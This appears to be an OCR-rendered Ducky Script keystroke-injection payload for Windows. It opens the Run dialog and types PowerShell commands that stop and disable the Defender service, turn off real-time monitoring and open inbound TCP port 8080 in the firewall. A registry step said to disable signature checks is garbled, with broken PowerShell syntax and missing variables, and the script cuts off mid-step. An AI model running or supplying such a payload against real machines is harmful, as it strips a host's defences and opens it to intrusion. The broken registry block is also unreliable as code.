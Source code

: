 ```
ENTER

DELAY 1000
# Open Run dialog
GUI r
DELAY 500
# Stop and disable Windows Defender service
STRING powershell.exe -Command "Stop-Service -Name WinDefend -Force; Set-Service -Name WinDefend -StartupType Disabled"
DELAY 500
ENTER

DELAY 1000
# Open Run dialog
GUI r
DELAY 500
# Disable Windows Defender real-time protection
STRING powershell.exe -Command "Set-MpPreference -DisableRealtimeMonitoring `$true"
DELAY 500
ENTER

DELAY 1000
# Open Run dialog
GUI r
DELAY 500
# Add a new firewall rule to allow incoming connections on port 8080
STRING powershell.exe -Command "New-NetFirewallRule -DisplayName 'AllowIncoming8080' -Direction Inbound -Protocol TCP -LocalPort 8080 -Action Allow -Enabled True"
DELAY 500
ENTER

DELAY 1000
# Open Run dialog
GUI r
DELAY 500
# Modify additional security settings (potentially disables signature checks)
STRING powershell.exe –command "
# Define registry entry name and path
nameNP = 'NC_Signature_Enabled';
regPathNP –Name
# Set value to disable signature-based checks
valueNP -PropertyType DWORD -Force"
DELAY 500
ENTER

# Optional: Restore Windows Defender real-time protection
DELAY 1000
GUI r
DELAY 500
STRING powershell.exe
ENTER
# Enable real-time monitoring again
STRING set-MpPreference -DisableRealTimeMonitoring `$false
DELAY 500
ENTER

# Optional: Restart and re-enable Windows Defender service
DELAY 1000
GUI r
DELAY 500
STRING powershell.exe
ENTER
# Start the service
```